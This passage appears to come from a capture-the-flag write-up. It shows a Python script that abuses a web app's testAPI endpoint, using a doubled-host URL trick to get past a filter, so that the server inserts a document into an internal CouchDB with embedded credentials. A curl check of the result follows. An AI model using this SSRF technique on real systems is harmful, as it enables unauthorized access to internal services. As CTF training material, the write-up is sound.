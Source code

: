 We didn't hit the Illegal filter! I'll come back to the reason later, but now we have a limited CTF time to get the points.

We are not sure we hit the couchdb server, so let's try inserting a document. To avoid problems with bash string escaping, let's move to Python, testing the POST options of the testAPI.

```python
import requests
import json

headers = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'
}

# Simple POST Test
params = (
    ('url', 'http://neptunian:neptunian@couchdb:5984@couchdb:5984/neptunian'),
    ('method', 'POST'),
    ('data', 
        json.dumps({
            "some_int": 1,
            "some_string": "c"
        })
    )
)

# Local
response = requests.get('http://localhost:8080/testAPI', headers=headers, params=params) 

print(response.text)
```

Fire in the hole!

```bash
# Send the payload
$ python exploit.py 

success

# Check new documents
$ curl -s http://neptunian:neptunian@couchdb:5984/neptunian/_all_docs | jq
{
  "total_rows": 2,
  "offset": 0,
  "rows": [
    {
      "id": "99ea668366ac9d5d74fd2bc91c00ed5b",
      "key": "99ea668366ac9d5d74fd2bc91c00ed5b",
      "value": {
        "rev": "1-cee1919fc2eda9a6068ed2792608a9dd"
      }
    },
    {
      "id": "99ea668366ac9d5d74fd2bc91c00fd09",
      "key": "99ea668366ac9d5d74fd2bc91c00fd09",
      "value": {
        "rev": "1-f8744c7d9e172ac4b188fbb8f337a204"
      }
    }
  ]
}

# There is a new ID 99ea668366ac9d5d74fd2bc91c00fd09!

```